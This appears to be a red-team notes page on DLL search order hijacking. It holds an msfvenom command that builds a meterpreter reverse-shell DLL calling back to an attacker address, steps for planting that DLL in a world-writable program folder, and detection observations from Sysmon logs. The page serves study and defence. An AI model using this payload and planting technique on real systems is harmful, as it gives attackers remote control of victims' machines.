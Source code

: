 ```yaml
---
description: DLL Search Order Hijacking for privilege escalation, code execution, etc.
---
```


# DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode %}

To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded (note the NAME NOT FOUND) as it does not exist in the given path:

![](../../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll`&#x20;

![](../../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found (SUCCESS):

![](../../.gitbook/assets/dll-success.png)

which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:

![](../../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:

![](../../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 (`1872`) which then established a connection to 10.0.0.5:

![](<../../.gitbook/assets/dll-logs (1).png>)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1038" %}

{% embed url="https://pentestlab.blog/2017/03/27/dll-hijacking/" %}

\
